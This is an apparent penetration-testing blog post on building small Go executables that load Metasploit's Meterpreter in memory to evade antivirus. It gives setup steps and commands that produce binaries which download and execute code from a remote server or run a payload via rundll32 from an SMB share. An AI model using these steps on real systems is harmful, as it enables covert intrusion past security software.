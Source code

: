 ```yaml
---
layout: post
title: Bypassing AntiVirus with Golang
---
```


Metasploit has two excellent modules designed to upgrade a simple shell to Meterpreter using a call to a Web server or SMB server. The first module is exploit/multi/script/web_delivery and the other is exploit/windows/smb/smb_delivery. Using these modules you can execute a simple Powershell, PHP, Python or Rundll command to upgrade your existing shell to meterpereter.

What happens if you don't have a shell though and all you can do is run an executable. You could create a meterpreter or shell payload and attempt to upload and run those executables but it is very likely that AV will catch them once they are written to disk. Instead, what if we could create a very simple executable that only makes the necessary call to web_delivery or smb_delivery and then loads meterpreter in memory? This executable will likely not be caught by AV.

The stealth.go script does exactly this. It takes a few parameters, the type of payload you want, the Metasploit server and port, and a folder name and creates a small Golang executable that makes the appropriate call to Metasploit.

To use the script you will need a recent version of Golang installed on each OS for which you plan to build an executable. After installing Golang do the following:

1. Configure the Metasploit web_delivery or smb_delivery module as needed. Note that for the web_delivery module you need to set the URIPATH parameter and on the smb_delivery module you need to set the SHARE parameter and leave the FOLDER_NAME parameter unset.

2. Run the stealth.go module to build a binary called shell (*nix) or shell.exe (Windows). 

    go run stealth.go ps 10.10.10.1 8080 test

This will build an executable that will make a Powershell call to download and execute code from http://10.10.10.1:8080/test.

    go run stealth.go smb 10.10.10.1 445 test

This will build an executable that will make a rundll32 call to \\10.10.10.1\test and execute the delivered payload.

3. Run shell or shell.exe and check your Metasploit server for a new Meterpreter session.

The stealth.go code can be found in my scripts repository on (Github)[https://github.com/averagesecurityguy/scripts].

